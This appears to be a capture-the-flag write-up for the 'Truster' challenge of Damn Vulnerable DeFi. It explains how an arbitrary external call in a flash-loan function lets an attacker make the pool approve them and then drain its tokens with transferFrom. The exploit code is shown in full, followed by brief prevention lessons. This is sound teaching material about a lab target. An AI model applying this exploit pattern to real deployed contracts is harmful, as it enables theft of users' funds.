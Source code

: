 ## Problems

This ```TrusterLenderPool``` contain a function that capable to call other smart contract function:
```js
    target.functionCall(data);
```
what's wrong with that? let's check the parameters of that function. 
```js
    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
```
from that we can see that the function above can make a ```functionCall()``` to any contract (```target```) with any function (```data```). it can be okay if this contract use ```delegateCall``` (sometimes will be bad too) instead of ```call``` because with ```call```  make this contract a signer (```msg.sender```) for that transaction. So what if we call function that will allow us to transfer ERC20 from this contract to other? the function is ```approve``` from ERC20 standart.

## How to Attack 
simply make the ```TrusterLenderPool``` to interact with ```DamnVulnerableToken``` contract to approve ```attacker``` for using its token. We can do it with this following code:
```js
///truster.challenge.js
...

const data =
    (await this.token.populateTransaction
        .approve(attacker.address,TOKENS_IN_POOL))
        .data;
await this.pool
    .connect(attacker)
    .flashLoan(0,attacker.address,this.token.address,data);

...
```

After that we can simply call ```transferFrom``` function from token contract:
```js
await this.token
    .connect(attacker)
    .transferFrom(this.pool.address,attacker.address,TOKENS_IN_POOL);
```
and congrats we finally drain up the pool!

## Lesson and How to Prevent 
1. Don't trust anybody to choose what function we sould call in what contract. 
2. More carefull when handle a cross contract transaction
